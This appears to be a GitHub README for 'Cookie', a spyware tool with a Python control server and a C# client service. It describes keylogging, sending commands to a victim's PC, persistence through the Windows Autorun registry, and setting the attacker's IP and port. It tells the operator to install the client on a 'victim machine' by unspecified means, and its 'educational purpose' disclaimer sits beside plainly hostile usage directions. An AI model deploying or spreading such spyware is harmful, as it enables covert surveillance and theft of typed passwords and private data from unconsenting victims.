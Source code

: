 # __Cookie__:cookie:
>Cookie is a Spyware created for educationl purpose only so use this only in a protected and authorized environment.

# What does it do?
It's a spyware so... spy! It can send all sorts of commands to the pc victim, and it is also a __keylogger__ so it can read what the victim is typing on his keyboard.

# How is it structred?
>Cookie_Client
>>Cookie_Server

- The Cookie Server is the python script, this is the script that you have to use for controlling the victim machine;

You can use it on your mobile phone (use QPython) or in your computers. You have to set only the IP, the victim has to be in your LAN or you have to use a forward port. The default port is [7373]

- The Cookie Client is the C# service; You have to change the IP and the default port to your ip:

>cookie.Connect("127.0.0.1",7373);

You must install it on victim machine and in some way (there are a lot of ways) start it, then it writes it self in the Autorun registry.
Then it will search for Cookie Server.


